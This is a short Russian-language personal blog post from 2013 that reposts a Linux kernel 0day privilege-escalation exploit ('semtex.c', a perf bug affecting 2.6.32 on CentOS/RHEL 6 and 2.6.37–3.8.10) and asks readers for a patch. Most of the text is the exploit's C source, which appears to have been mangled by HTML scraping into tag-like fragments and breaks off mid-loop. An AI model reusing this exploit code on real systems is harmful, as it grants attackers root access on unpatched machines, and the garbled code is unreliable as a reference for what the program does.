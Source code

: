 ```yaml
---
layout: post
title: 0day уязвимость в 2.6.32 (CentOS/RHEL 6) и 2.6.37..3.8.10 (репост)
date: '2013-05-15 01:39:00'
tags:
- linux
- centos
- riepost
- linux_kernel_2_6
- bagh
- povyshieniie_privielieghii
- uiazvimost_
---
```


Вечерком попробую, а пока сохраню сюда, чтобы не потерялось.

Забавно, но мой [Carbon AS 3](http://www.carbonsoft.ru/products/carbon-as-3/carbon-as-3-2/) от этого не страдает - там ядро 2.4 :D

[http://habrahabr.ru/post/179735/](http://habrahabr.ru/post/179735/)

P.S: Если кто-нибудь видел патч для 2.6.32 в el6, поделитесь пожалуйста (актуально на 23:11 15.05.2013).

    /* * linux 2.6.37-3.x.x x86_64, ~100 LOC * gcc-4.6 -O2 semtex.c && ./a.out * 2010 sd@fucksheep.org, salut! * * update may 2013: * seems like centos 2.6.32 backported the perf bug, lol. * jewgold to 115T6jzGrVMgQ2Nt1Wnua7Ch1EuL9WXT2g if you insist. */#define _GNU_SOURCE 1#include <stdint.h>#include <stdio.h>#include <stdlib.h>#include <string.h>#include <unistd.h>#include <sys mman.h="">#include <syscall.h>#include <stdint.h>#include <assert.h>#define BASE  0x380000000#define SIZE  0x010000000#define KSIZE  0x2000000#define AB(x) ((uint64_t)((0xababababLL<<32)^((uint64_t)((x)*313337))))void fuck()="" {="" int="" i,j,k;="" uint64_t="" uids[4]="{" ab(2),="" ab(3),="" ab(4),="" ab(5)="" };="" uint8_t="" *current="*(uint8_t" **)(((uint64_t)uids)="" &="" (-8192));="" kbase="((uint64_t)current)">>36;  uint32_t *fixptr = (void*) AB(1);  *fixptr = -1;  for (i=0; i<4000; i+="4)" {="" uint64_t="" *p="(void" *)&current[i];="" uint32_t="" *t="(void*)" p[0];="" if="" ((p[0]="" !="p[1])" ||="">>36) != kbase)) continue;    for (j=0; j</4000;></32)^((uint64_t)((x)*313337))))void></assert.h></stdint.h></syscall.h></sys></unistd.h></string.h></stdlib.h></stdio.h></stdint.h>
